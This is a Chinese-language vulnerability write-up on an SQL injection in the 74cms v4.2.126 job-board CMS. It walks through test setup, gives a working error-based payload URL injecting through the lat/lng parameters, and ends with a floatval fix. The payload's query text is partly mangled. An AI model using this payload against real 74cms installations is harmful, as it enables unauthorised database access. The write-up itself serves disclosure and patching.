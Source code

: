 ```yaml
---
title: "74cms v4.2.126-通杀sql注入"
id: zhfly2790
---
```


# 74cms v4.2.126-通杀sql注入

# 0x00 前言

厂商：74cms
下载地址：[http://www.74cms.com/download/index.html](http://www.74cms.com/download/index.html)

关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

# 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为  [http://baidu.com](http://baidu.com) 即可

# 0x02 数据填充不然没得测试

![image](../img/3fe62a8eed43c49595c5bf54590aba34.png)

## 0x02.1注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了
注册完成以后将此商家用户登录前台

![image](../img/ea437e63c6c56be128734873e7babe77.png)

## 0x02.2注册普通账号方便测试

![image](../img/6310874b16efcc72a7a7a1b3214ca540.png)

# 0x03 sql漏洞演示

![image](../img/9c3b6002414c37c5d548a5251ff441be.png)

![image](../img/e58fa00db554ba954975de9d2d1abbc8.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

```
Payload: 
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a 
```

![image](../img/dc5afc5d8980ba31d4b21b5196b62455.png)

# 0x04 漏洞原理

![image](../img/12181c83057ba0b29473c4ebee849ac6.png)

![image](../img/2cb872ee1ecfb38317c2132352642f2a.png)

![image](../img/5c9ad1285ef047c5630a27806d06a597.png)

![image](../img/7a1ab26c205d69b422c0b9609b79000c.png)

![image](../img/3d1f082baac09fe46573881702eb9d1d.png)

![16.png](../img/4ce2f9b3822b72662557e784aa7e16a8.png)

说明我们的猜想是没有错的。

![image](../img/2f09d93e975a54ccb17a6394a1096ec3.png)

![image](../img/cbdfcc8b48baffe37460d2d0ee6c5284.png)

所以最终我们符合条件的内容都会赋值为$this->params

![image](../img/4bee7dcbc4d92a65c0ad8385819d4d8a.png)

![image](../img/ea437e63c6c56be128734873e7babe77.png)

![image](../img/8c84751216621f071101132a3ed465f3.png)

# 0x05 修复方法

![image](../img/b956cd9d01ec83ae1057c1cb79160bf9.png)

```
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2) COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range"; 
```

强转为浮点型，防止注入

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2